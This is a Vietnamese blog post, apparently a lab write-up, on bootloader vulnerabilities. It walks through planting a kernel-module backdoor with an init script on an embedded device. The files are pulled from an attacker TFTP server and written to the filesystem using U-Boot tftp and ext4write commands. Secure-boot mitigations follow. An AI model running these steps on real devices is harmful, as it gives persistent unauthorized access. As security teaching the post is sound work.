```yaml
---
title: "Bootloader Security: Các lỗ hổng bảo mật và kỹ thuật tấn công"
author: kiennql
date: 2025-06-19 14:14:00 +0700
categories: [bootloader-labs]
tags: [bootloader, security, u-boot, embedded security, penetration testing, backdoor, tftp, kernel module, kernel, secure boot]
math: true
mermaid: true
render_with_liquid: false
---
```


## 1. Mục lục
- [1. Mục lục](#1-mục-lục)
- [2. Các lỗ hổng bootloader phổ biến](#2-các-lỗ-hổng-bootloader-phổ-biến)
- [3. Case Study - Penetration Test](#3-case-study---penetration-test)
  - [3.1. Mục tiêu](#31-mục-tiêu)
  - [3.2. Môi trường lab](#32-môi-trường-lab)
- [4. Triển khai Bootloader Attack](#4-triển-khai-bootloader-attack)
  - [4.1. Chuẩn bị payload](#41-chuẩn-bị-payload)
  - [4.2. Upload lên TFTP server](#42-upload-lên-tftp-server)
  - [4.3. Khai thác bootloader](#43-khai-thác-bootloader)
  - [4.4. Kết quả](#44-kết-quả)
- [5. Giải pháp khắc phục](#5-giải-pháp-khắc-phục)
  - [5.1. Secure Boot Technologies](#51-secure-boot-technologies)
  - [5.2. Best Practices](#52-best-practices)

Bài viết này phân tích các lỗ hổng bảo mật trong bootloader của thiết bị nhúng và trình bày một case study về cách khai thác để cài đặt backdoor.

## 2. Các lỗ hổng bootloader phổ biến

| Lỗ hổng | Mô tả | Khai thác |
|---------|-------|-----------|
| **Console port access** | Console port kết nối qua endpoint web công khai | Truy cập bootloader trực tiếp |
| **Thiếu authentication** | Không có xác thực trong bootloader | Thay đổi cấu hình, tải mã độc |
| **Unsigned code execution** | Cho phép thực thi code không ký | Chèn và thực thi backdoor |
| **Firmware update không an toàn** | Cơ chế cập nhật firmware yếu | Cập nhật firmware chứa malware |
| **Pre-secure boot access** | Truy cập trước khi secure boot | Cài đặt malware trước bảo vệ |

## 3. Case Study - Penetration Test

### 3.1. Mục tiêu

Trong quá trình pentest, phát hiện endpoint `http://vexpress.arm:8000` kết nối tới console của thiết bị nhúng.

**Target:** Cài đặt backdoor để có shell access và liệt kê processes.

### 3.2. Môi trường lab

```mermaid
graph LR
    A[Attacker] --> B[TFTP Server<br/>192.39.37.4]
    A --> C[Target Device<br/>vexpress.arm:8000]
    B --> C
```

## 4. Triển khai Bootloader Attack

### 4.1. Chuẩn bị payload

Tạo kernel module backdoor và init script:

```bash:S60kernel
#!/bin/sh
case "$1" in
    start)
        insmod /var/processenum.ko &
        [ $? = 0 ] && echo "OK" || echo "FAIL"
        ;;
    stop)
        rmmod processenum &
        [ $? = 0 ] && echo "OK" || echo "FAIL"
        ;;
    restart|reload)
        "$0" stop; "$0" start
        ;;
    *)
        echo "Usage: $0 {start|stop|restart}"
        exit 1
esac
exit $?
```

Files cần thiết:
```bash
root@kai:~/Desktop/backdoor-files# ls
S60kernel  processenum.ko
```

### 4.2. Upload lên TFTP server

```bash
tftp tftp.server
tftp> put S60kernel
Sent 392 bytes in 0.0 seconds
tftp> put processenum.ko  
Sent 124012 bytes in 0.0 seconds
```

### 4.3. Khai thác bootloader

Truy cập console qua web endpoint và thực hiện:

**Bước 1:** Cấu hình network
```bash
=> dhcp
=> setenv serverip 192.39.37.4
```

**Bước 2:** Download files vào memory
```bash
=> tftp 0x63000000 processenum.ko
Bytes transferred = 123320 (1e1b8 hex)

=> tftp 0x65000000 S60kernel  
Bytes transferred = 370 (172 hex)
```

**Bước 3:** Ghi vào filesystem
```bash
=> ext4write mmc 0:1 0x63000000 /var/processenum.ko 01e1b8
123320 bytes written in 421 ms

=> ext4write mmc 0:1 0x65000000 /etc/init.d/S60kernel 0x172
370 bytes written in 375 ms

=> reset
```

### 4.4. Kết quả

Device reboot và backdoor tự động chạy với **PID 903**.

![Attack Result](/assets/img/post/bootloader-security/Untitled.webp)
_Backdoor đã được cài đặt thành công_

## 5. Giải pháp khắc phục

### 5.1. Secure Boot Technologies

| Solution | Mô tả |
|----------|-------|
| **ARM Trusted Firmware** | Quản lý boot process an toàn |
| **U-Boot Secure Boot** | Xác thực digital signature |
| **OP-TEE** | Trusted Execution Environment |
| **Tianocore EDK II** | UEFI secure boot cho ARM |

### 5.2. Best Practices

1. **Disable Console Access** trong production
2. **Implement Code Signing** - chỉ chạy signed code
3. **Secure Firmware Update** với encryption/authentication
4. **Boot Chain Verification** từ hardware root of trust
5. **Access Control** cho bootloader commands

**Lưu ý:** Triển khai secure boot từ giai đoạn thiết kế để đảm bảo hiệu quả tối đa.
